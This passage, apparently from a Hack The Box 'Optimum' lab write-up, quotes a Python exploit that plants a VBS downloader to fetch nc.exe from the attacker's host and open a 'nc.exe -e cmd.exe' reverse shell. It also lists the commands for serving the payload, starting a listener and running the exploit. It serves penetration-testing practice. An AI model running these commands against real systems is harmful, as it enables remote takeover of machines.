 ```python
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```

The VBS script will then upload netcat (`nc.exe`) to the target machine from our attacker web server, and execute the netcat reverse shell payload to connect to our attacker's netcat listening port.

Armed with above information, let's fire it up!

- **Change `ip_addr` to our attacker machine's IP address:**

```python
ip_addr = "10.10.14.8" #local IP address
local_port = "443" # Local Port number
```

- **Setup a web server (i.e: Python's `http.server` module) to host the netcat binary (64-bit):**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:41:41(HKT)]
└> file /opt/static-binaries/binaries/windows/x64/nc.exe
/opt/static-binaries/binaries/windows/x64/nc.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 7 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:41:49(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/windows/x64/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- **Setup a netcat listener on port 443:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:39:44(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
```

- **Run the exploit few times:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:42:11(HKT)]
└> python2 39161.py optimum.htb 80
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:42:15(HKT)]
└> python2 39161.py optimum.htb 80
```
